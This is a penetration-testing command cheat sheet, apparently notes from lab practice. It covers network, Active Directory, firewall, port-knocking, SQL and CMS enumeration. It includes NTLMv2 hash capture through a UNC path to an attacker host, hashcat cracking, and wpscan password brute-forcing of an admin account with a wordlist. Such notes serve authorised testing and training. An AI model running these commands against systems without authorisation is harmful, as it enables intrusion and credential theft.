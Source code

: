 ```shell
cat /usr/share/nmap/nmap-services | grep -v '^#' | sort -k3 -nr | head -n 100 | awk '{split($2, a, "/"); print a[1]}' > top_ports.txt



# specific to AD
nxc smb ip # to quickly look for domain nam
nmap -script dns-srv-enum --script-args "dns-srv-enum.domain='domainname'"

sudo responder -A -I tun0 # must use this, only allowed in analyze mode not poisoning
# and capture NTLMv2 hashes like typing `dir \\attacker-ip\nonshare` 
hashcat -m 5600 <hash file> <password file> --force


# firewall check
If a firewall is in place, an ACK scan (`nmap -sA`) shows:  
`Not shown: 994 filtered ports`

If no firewall is present, the output shows:  
`Not shown: 999 unfiltered TCP ports (reset)`

hping3 -S -p 80 -c 1 <target>   # SYN to port 80
hping3 -S -p 81 -c 1 <target>   # SYN to a random port
# RST response = port is closed, but host reachable
# No response = likely dropped silently (firewall)
# ICMP unreachable = network filter in place
nmap --script=firewalk --traceroute -Pn -p 1-100 <target>  # [Firwalk nse](https://nmap.org/nsedoc/scripts/firewalk.html)



# Port knocking
/etc/init.d/knockd # config
knock <target-ip> 571 290 911  # port in seq
for x in 571 290 911; do nmap -Pn --max-retries 0 -p $x 10.10.10.43 && sleep 1; done



# SQL Enumeration
mysql -u root -p'root' -h 127.0.0.1 -P 3306 --skip-ssl
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth # windows-auth forces NTLM instead of kerberos
impacket-mssqlclient hostname.domain.com -k -port <no>


# CMS
joomscan

# Wordpress Scanning
wpscan --url http://ip --disable-tls-checks --api-token <redacted> # WPVulnDB API from wpscan
wpscan --url http://ip --disable-tls-checks --enumerate u --api-token <redacted>
wpscan --url http://offsecwp --enumerate ap --plugins-detection aggressive -t 40 --api-token <redacted>
# pass brute
wpscan --url http://example.com/ -e u --passwords /usr/share/wordlists/rockyou.txt
wpscan --url http://example.com/ -U admin --passwords /usr/share/wordlists/rockyou.txt

# Drupal
droopescan scan drupal -u http://example.org/ -t 32
# find version > /CHANGELOG.txt

### Adobe Cold Fusion
# check version /CFIDE/adminapi/base.cfc?wsdl
```